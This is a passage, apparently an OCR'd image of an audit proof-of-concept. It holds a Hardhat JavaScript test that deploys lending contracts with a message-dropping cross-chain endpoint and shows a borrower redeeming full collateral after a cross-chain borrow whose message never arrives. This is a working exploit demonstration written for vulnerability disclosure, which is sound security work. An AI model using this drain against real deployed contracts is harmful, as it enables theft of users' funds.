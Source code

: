```js
    storage = await LendStorage.deploy(owner.address, owner.address, 1);
    await storage.deployed();
    await storage.connect(owner).addSupportedTokens(token.address, token.address);

    // Deploy CoreRouter & authorize
    CoreRouter = await ethers.getContractFactory("CoreRouter");
    core = await CoreRouter.deploy(storage.address, owner.address, owner.address);
    await core.deployed();
    await storage.connect(owner).setAuthorizedContract(core.address, true);

    // Dummy endpoint that drops messages
    DummyEndpoint = await ethers.getContractFactory("DummyEndpoint");
    const endpoint = await DummyEndpoint.deploy();
    await endpoint.deployed();

    // Deploy CrossChainRouter but no _lzReceive hook
    CrossChainRouter = await ethers.getContractFactory("CrossChainRouter");
    cross = await CrossChainRouter.deploy(
      endpoint.address,
      owner.address,
      storage.address,
      owner.address,
      owner.address,
      core.address,
      1
    );
    await cross.deployed();
    await storage.connect(owner).setAuthorizedContract(cross.address, true);

    // Fund CrossChainRouter
    await token.connect(owner).mint(cross.address, ethers.utils.parseEther("500"));
  });

  it("lets borrower drain collateral on A if the borrow message never arrives on B", async () => {
    const borrowAmt = ethers.utils.parseEther("100");
    await token.connect(borrower).approve(cross.address, borrowAmt);

    // STEP 1: Initiate cross-chain borrow
    await cross
      .connect(borrower)
      .borrowCrossChain(borrowAmt, token.address, 2, { value: 0 });

    // STEP 2: Redeem full collateral on Chain A
    await token.connect(borrower).approve(core.address, borrowAmt);
    await expect(core.connect(borrower).redeem(borrowAmt, token.address)).to.not.be.reverted;

    // Attacker fully recovers collateral despite no debt being recorded
    const bal = await token.balanceOf(borrower.address);
    expect(bal).to.be.gt(ethers.utils.parseEther("900"));
  });
});
```
How it works:
